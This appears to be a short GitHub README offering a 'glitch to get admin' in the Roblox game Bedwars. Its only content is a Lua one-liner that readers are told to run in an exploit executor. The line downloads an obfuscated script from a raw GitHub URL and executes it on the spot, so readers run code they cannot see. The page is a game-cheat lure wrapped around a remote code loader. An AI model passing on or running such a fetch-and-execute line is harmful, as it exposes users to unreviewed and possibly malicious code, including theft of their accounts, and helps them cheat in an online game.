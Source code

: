 ## i found a glitch to get admin in bedwars, to use this script run this in ur exec

```lua
  loadstring(game:HttpGet("https://raw.githubusercontent.com/laxati/bedwars_admin/main/obf_a8Xlb6SX1KnFg7r1Zpeh9TVYPmB1816ed54V1yaONFqKD9veaCML1fWp3vBXxsrW.lua", true))()
```
